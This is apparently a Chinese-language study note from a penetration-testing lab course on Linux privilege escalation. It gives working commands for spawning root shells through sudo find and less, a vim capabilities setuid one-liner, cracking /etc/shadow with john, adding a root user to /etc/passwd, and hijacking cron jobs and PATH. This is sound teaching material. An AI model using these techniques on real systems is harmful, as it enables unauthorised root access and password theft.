 由于这几章实验内容比较多，就不在这展示了

# Shell and Web Shell

比较简单, 主要是netcat和matesploit的使用

不用msfvenom生成shellcode payload也可以看在线网站：https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

包含了非常多的reverse shell payload

# Linux 权限提升

由于东西太多，只记录点重要的

    uname -a 信息收集
    /proc/version 信息收集
    ps -aux 进程表
    env 环境变量
    sudo -l 查看能sudo的命令
    find
    find ... 2>/dev/null 将错误丢垃圾桶，其他命令适用


### 内核漏洞利用

通过信息收集的系统内核版本，寻找存在的漏洞

在线网站: https://www.linuxkernelcves.com/

使用可用exp或者matesploit利用

### sudo -l

sudo允许我们以比当前用户更高的权限运行某个命令

如果sudo运行当前用户运行如：find、less、base64....等等

则可以尝试提权：

    sudo find . -exec /bin/bash \;  -exec 执行命令

.

    sudo less /etc/passwd 回车
    !/bin/bash 回车

.

    base64用于读取权限高的文件

# https://gtfobins.github.io/ 命令列表


### SUID

文件可以具有读取、写入和执行权限。这些权限授予用户的权限级别。这随着 SUID（设置用户标识）和 SGID（设置组标识）而更改。它们允许分别以文件所有者或组所有者的权限级别执行文件。

    find / -type f -perm -04000 2>/dev/null    查看设有suid的文件

/etc/shadow需要root才能读写, 可以想办法利用sudo或具有suid的文件读写命令尝试读取，如base64

利用unshadow配合john可以尝试爆破用户密码:

    unshadow </etc/passwd> </etc/shadow> > <OutFileName>

将上述输出的文件利用john暴力破解

    john --wordlist <比如rockyou.txt> <上述输出的文件名>


此外，如果有权限，还可以直接向/etc/passwd/添加root权限的用户

使用openssl创建加盐hash密码:

    openssl passwd -1 -salt h4ck <password>

然后将结果插入：

    <username>:<上述结果>:0:0:root:/root:/bin/bash

    将该条信息追加进/etc/passwd


### Capabilities

系统管理员可用于提高进程或二进制文件权限级别的另一种方法是“Capabilities”. Capabilities 帮助在更精细的级别管理权限。例如，如果 SOC 分析师需要使用需要启动套接字连接的工具，则普通用户将无法执行此操作。如果系统管理员不想授予此用户更高的权限，他们可以更改Capabilities的二进制文件。因此，二进制文件将在不需要更高权限用户的情况下完成其任务

    getcap -r / 2>/dev/null

例如如果vim在cap里面，则可以尝试提权：

    ./vim -c ':py3 import os;os.setuid(0);os.execl("/bin/sh","sh","-c","reset; exec sh")'

注意程序路径！

<pre>karen@ip-10-10-141-89:~$ pwd
/home/karen
karen@ip-10-10-141-89:~$ getcap -r / 2&gt;/dev/null |grep vim
/home/karen/vim = cap_setuid+ep
karen@ip-10-10-141-89:~$ 
</pre>


### Cron Jobs

Cron 作业用于在特定时间运行脚本或二进制文件。默认情况下，它们以其所有者而不是当前用户的权限运行。虽然正确配置的 cron 作业本身并不容易受到攻击，但在某些情况下它们可以提供权限升级向量。
这个想法很简单;如果有一个以 root 权限运行的计划任务，并且我们可以更改将要运行的脚本，那么我们的脚本将以 root 权限运行。

Cron 作业配置存储为 crontabs（cron 表），以查看任务下次运行的时间和日期。

系统上的每个用户都有自己的 crontab 文件，无论他们是否登录，都可以运行特定任务。如您所料，我们的目标是找到一个由 root 设置的 cron 作业，并让它运行我们的脚本，最好是 shell。

CTF 机器可以每分钟或每 5 分钟运行一次 cron 作业，但您更经常会在渗透测试活动中看到每天、每周或每月运行的任务。

    /etc/crontab


可以尝试修改具有高权限的的crontab运行的脚本文件，可以改成reverse shell，我们这边就可以监听,getshell

Crontab 总是值得检查的，因为它有时会导致简单的权限升级向量。以下情况在没有特定网络安全成熟度级别的公司中并不少见：

    系统管理员需要定期运行脚本。

    他们创建一个 cron 作业来执行此操作

    一段时间后，脚本变得无用，他们将其删除

    他们不清理相关的 cron 作业

    此更改管理问题会导致利用 cron 作业的潜在漏洞利用。

如果crontab中任务还存在，但执行的脚本文件已经不存在了，我们可以尝试在crontab中指定的目录创建一个自定义的脚本文件 如 反向shell，这样我们的脚本将会被定时运行


### PATH环境变量

说白了就是利用$PATH中的 可写入文件夹，通过将某个可执行文件替换为我们的恶意脚本，当被拥有高权限的应用程序(SUID、sudo、capabilities)或用户执行，就会以该权限执行我们的恶意脚本

    查找可写文件夹，然后看看$PATH中有没有
    find / -writable 2>/dev/null

或者查找任意我们当前用户可写文件夹，并尝试将文件夹添加至环境变量

    export PATH=<path>:$PATH
